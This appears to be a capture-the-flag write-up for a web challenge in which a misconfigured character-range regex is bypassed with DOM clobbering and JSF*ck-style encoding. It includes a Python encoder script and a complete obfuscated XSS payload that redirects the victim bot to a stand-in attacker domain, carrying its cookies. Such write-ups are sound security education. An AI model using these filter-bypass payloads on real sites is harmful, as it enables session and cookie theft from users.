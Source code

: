 # Hex To Dec
## The Basics
On first load of the site, we were greated by the following screen:
![image](https://github.com/L-T-B/CTFS/assets/62217895/19b49941-4dfb-4f0f-b808-8fe14a57b921)

When submitting a hex value the website was updated to include the value:
![image](https://github.com/L-T-B/CTFS/assets/62217895/29fce33a-0686-4d6b-bf46-832c535c1be2)

Looking under the hood we can see the following javascript:
![image](https://github.com/L-T-B/CTFS/assets/62217895/da31b2c0-3b45-4a35-a3c2-8b99a8afdcba)

On closer inspection we can find that the regex (`^[0-f +-]+$`) is misconfigured and includes all chars between charcode 48 and 102 as well as plus, minus and space.
So our full list of characters is:
```
0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcde +-
```
With this knowledge we can try a simple HTML injection for testing purposes. 
The payload `<a HREF=TEST>` will produce a simple hyperlink to `./TEST`. (Note the attribute isn't closed which results in the NaN of the conversion also being included in the hypertext.)

![image](https://github.com/L-T-B/CTFS/assets/62217895/2e52153a-02ea-44b3-8d08-5c54555788c4)

## Converting this into an XSS
The basic idea of the exploit will be creating some exploit similar to:

`<IMG SRC ONERROR={our javascript code}>`

But we are limited to only a few lowercase chars and can't use any parentheses. But what we can use are javascript template strings which can call a function without using any parentheses.
For example the following code 
```
alert`XSS`
```
is equal to 
`alert("XSS")`

An other crucial step is getting the access to the document variable. A great gadget is here a [dom clobbering attack](https://portswigger.net/web-security/dom-based/dom-clobbering). 
We just give our Image Element an ID such as `AA` and we can access all the Image attributes from our js.
So for example `AA.src` is the equialent of `this.src`. 

But we are interested in the `document` so we will use `AA.ownerDocument`. We can't use a point so we need different a way to access all the fields. 
Luckly there's a handy way to access attributes in Javascript using the brackets. So we can rewrite our exploit and include this:

```
AA[`ownerDocument`]
```

For creating lowercase Strings we can look into JSF*ck. There is already a [great repo](https://github.com/aemkei/jsfuck) explain all the different tricks for getting an characters so I won't go into detail.

For creating any string which only contained ascii letters I wrote this small python script
```py
import re
import string


gadgets = {'false': "[[1==2]+[]][0]", "true": "[[1==1]+[]][0]", "undefined": "[[][[]]+[]][0]",
           "function find() { [native code] }": "[[][[[][[]]+[]][0][4]+[[][[]]+[]][0]["
                                                "5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]"
                                                " +[]][0]", 'Infinity': '[+("1e309")+['
                                                                        ']][0]',
           "function String() { [native code] }": "[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0]["
                                                  "1]+[[][[]]+[]][0][2]] +[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0]["
                                                  "3]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
                                                  "]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[["
                                                  "][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+["
                                                  "]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][["
                                                  "]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
                                                  "0]"}

payload = "toLowerCase"
scraps = []

for c in payload:
    if re.match("^[0-f +-]+$", c):
        scraps.append("`" + c + "`")
        continue
    for gadget in gadgets:
        if c in gadget:
            scraps.append(gadgets[gadget] + f"[{gadget.index(c)}]")
            break
    else:
        scraps.append(
            f"{string.ascii_lowercase.index(c) + 10}[[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
            f"]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+["
            f"]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[["
            f"1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[["
            f"][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0]["
            f"4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0]["
            f"0]+`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[][[[]["
            f"[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
            f"0][14]]`36`")

print("+".join(scraps).replace(" ", ""))
```

With this script we can create a simple XSS:
```js
AA[{enc("ownerDocument")][{enc("location")}]=`JAVASCRIPT:`+{enc("alert")+`\`XSS\``}
```
But this is quite inefficient and needs alot of chars for an exploit. This resulted in the server not accepting the request and returning.

## The Final Exploit

For cutting down the payload size I only encoded `toLowerCase`. With this method it is possible to create string such as `"DOCUMENT"["toLowerCase]()` and create a lowercase String (`"document"`).

So we first define a variable in this case `CC` and set it equal to the value from our python encoder script:
```
CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`
```

Again this is equal to `CC="toLowerCase"`.
With this variable the reset of the exploit is actually quite simple.
We first get the document.location and saving it in `BB` through calling 
```
BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]
```
After that we get the location as a string (useful for getting the `/` and the `.` char) and saving it in the variable `D`:
```
D=[BB+[]][0]
```
And lastly, redirecting the bot to our attacker controlled URL (Note `D[6]` = `/` and `D[18]`=`.`) witht the cookie as the path:
```
AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=
`HTTPS:`[CC]``+D[6]+D[6]+`ATTACKER`+D[18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];
```

So putting all the pieces together we get (Note remove the new lines, those are for better readablity):
```html
<IMG SRC ID=AA ONERROR=CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`;BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``];D=[BB+[]][0];AA[`OWNER`[
CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=`HTTPS:`[CC]``+D[6]+D[6]+`PART`+D[18]+`OTHER`+D[18]+`Baa`+D[
18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];>
```

## Thank's for reading!

